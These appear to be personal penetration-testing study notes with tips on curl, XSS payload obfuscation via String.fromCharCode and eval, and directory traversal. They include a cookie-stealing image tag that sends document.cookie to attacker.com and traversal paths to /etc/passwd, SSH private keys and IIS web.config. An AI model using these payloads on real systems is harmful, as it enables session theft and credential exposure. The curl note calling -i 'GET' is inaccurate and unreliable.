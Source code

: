### Curl
`-d` POST, `-H` header, `-i` GET, `-X '{method type}'` 
`-L` follow redirect
eg.
`-H 'Content-Type: application/json'`
## XSS
Common special characters:
```
< > ' " { } ;
```
## For long JS payload
Minifying the JS code: [JScompress](https://jscompress.com/)
Encode it
```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
Access payload(encoded)
```javascript
<script>eval(String.fromCharCode(118,97....))</script>
```

Test:
```javascript
<img src = "https://attacker.com/?cookie="+btoa(document.cookie)>
```
## Directory Traversal
[Auto_wordlists](https://github.com/carlospolop/Auto_Wordlists)
Leveraging both `../` and `..\` when doing enumeration.
It's better to use `curl` or `Burp Suite` to reveal data.
### Linux
Check if there is parameter that is related to file, Use `../` to test.
`../../../../etc/passwd`
`../../../../home/offsec/.ssh/id_rsa`
`../../../../home/offsec/.ssh/authorized_keys`
### Windows
Use `..\` to test.
`C:\Windows\System32\drivers\etc\hosts` - it is reachable by local users.
 **Sensitive files are often not easily found on Windows without being able to list the contents of directories.**
 Gather information -> Research paths leading to sensitive files
 **eg**.  *Internet Information Services (IIS) >>  config file is at `C:\inetpub\wwwroot\web.config`*
### Encoding
[url-encode](https://cyberchef.org/#recipe=URL_Encode(false)) 
Some times special character should be URL encoded. 
`.` -> `%2e`